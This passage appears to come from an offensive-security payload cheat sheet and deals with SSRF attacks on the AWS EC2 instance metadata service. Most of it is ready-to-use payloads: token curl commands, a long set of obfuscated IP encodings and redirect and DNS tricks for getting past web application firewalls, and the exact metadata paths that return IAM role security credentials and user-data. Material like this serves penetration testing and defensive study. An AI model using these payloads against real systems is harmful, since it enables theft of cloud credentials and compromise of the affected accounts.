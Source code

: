 
* IPv4 endpoint (old): `http://169.254.169.254/latest/meta-data/`
* IPv4 endpoint (new) requires the header `X-aws-ec2-metadata-token`
  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

* IPv6 endpoint: `http://[fd00:ec2::254]/latest/meta-data/` 

In case of a WAF, you might want to try different ways to connect to the API.

* DNS record pointing to the AWS API IP
  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```
* HTTP redirect
  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```
* Encoding the IP to bypass WAF
  ```powershell
  http://425.510.425.510 Dotted decimal with overflow
  http://2852039166 Dotless decimal
  http://7147006462 Dotless decimal with overflow
  http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
  http://0xA9FEA9FE Dotless hexadecimal
  http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
  http://0251.0376.0251.0376 Dotted octal
  http://0251.00376.000251.0000376 Dotted octal with padding
  http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
  http://[::ffff:a9fe:a9fe] IPV6 Compressed
  http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
  http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
  http://[fd00:ec2::254] IPV6
  ```


These URLs return a list of IAM roles associated with the instance. You can then append the role name to this URL to retrieve the security credentials for the role.
```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]

# Examples
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```

This URL is used to access the user data that was specified when launching the instance. User data is often used to pass startup scripts or other configuration information into the instance.
```powershell
http://169.254.169.254/latest/user-data
```
